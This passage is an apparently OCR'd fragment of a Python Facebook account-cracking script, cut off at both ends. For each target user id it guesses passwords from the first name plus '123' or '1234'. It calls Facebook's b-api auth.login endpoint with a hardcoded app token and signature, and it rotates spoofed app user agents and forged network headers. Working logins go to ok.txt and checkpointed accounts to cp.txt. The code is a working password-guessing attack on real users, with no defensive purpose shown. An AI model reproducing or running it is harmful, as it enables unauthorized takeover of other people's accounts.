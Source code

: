 		_bravoua = random.choice(["Mozilla/5.0 (Linux; Android 10; Redmi Note 8 Pro Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/83.0.4103.106 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/275.0.0.49.127;]", "[FBAN/FB4A;FBAV/246.0.0.49.121;FBBV/181448449;FBDM/{density=1.5,width=540,height=960};FBLC/en_US;FBRV/183119516;FBCR/TM;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1606;FBSV/6.0.1;FBOP/1;FBCA/armeabi-v7a:armeabi;]", "Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-J320F Build/LMY47V) [FBAN/FB4A;FBAV/43.0.0.29.147;FBPN/com.facebook.katana;FBLC/en_GB;FBBV/14274161;FBCR/Tele2 LT;FBMF/samsung;FBBD/samsung;FBDV/SM-J320F;FBSV/5.0;FBCA/armeabi-v7a:armeabi;FBDM/{density=3.0,width=1080,height=1920};FB_FW/1;]", "Mozilla/5.0 (Linux; Android 5.1.1; A37f Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.152 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/305.1.0.40.120;]", "Mozilla/5.0 (Linux; Android 10; REALME RMX1911 Build/NMF26F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.111 Mobile Safari/537.36 AlohaBrowser/2.20.3", "Mozilla/5.0 (iPhone; CPU iPhone OS 11_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E216 [FBAN/FBIOS;FBAV/170.0.0.60.91;FBBV/105964764;FBDV/iPhone10,1;FBMD/iPhone;FBSN/iOS;FBSV/11.3;FBSS/2;FBCR/Sprint;FBID/phone;FBLC/en_US;FBOP/5;FBRV/106631002]", "Mozilla/5.0 (Linux; Android 7.1.1; ASUS Chromebook Flip C302 Build/R70-11021.56.0; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.80 Safari/537.36 [FB_IAB/FB4A;FBAV/198.0.0.53.101;]"])
		try:
			pass1 = name.lower().split(' ')[0] + '1234'
			api = 'https://b-api.facebook.com/method/auth.login'
			params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass1, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
			headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
			data = requests.get(api, params=params, headers=headers_)
			if "access_token" in data.text and "EAAA" in data.text:
				print(" \033[1;32m[BRAVO-OK] "+uid+" | "+pass1+"\033[0;97m")
				ok = open("ok.txt", "a")
				ok.write(uid+"|"+pass1+"\n")
				ok.close()
				oks.append(uid+pass1)
			else:
				if "www.facebook.com" in data.json()['error_msg']:
					print(" \033[1;33m[MRBRAVO-CP] "+uid+" | "+pass1+"\033[0;97m")
					cp = open("cp.txt", "a")
					cp.write(uid+"|"+pass1+"\n")
					cp.close()
					cps.append(uid+pass1)
				else:
					pass2 = name.lower().split(' ')[0] + '123'
					api = 'https://b-api.facebook.com/method/auth.login'
					params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass2, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
					headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
					data = requests.get(api, params=params, headers=headers_)
					if "access_token" in data.text and "EAAA" in data.text:
						print(" \033[1;32m[BRAVO-OK] "+uid+" | "+pass2+"\033[0;97m")
						ok = open("ok.txt", "a")
						ok.write(uid+"|"+pass2+"\n")
						ok.close()
						oks.append(uid+pass2)
					else:
						if "www.facebook.com" in data.json()['error_msg']:
							print(" \033[1;33m[Ibrahim:CP] "+uid+" | "+pass2+"\033[0;97m")
							cp = open("cp.txt", "a")
							cp.write(uid+"|"+pass2+"\n")
							cp.close()
							cps.append(uid+pass2)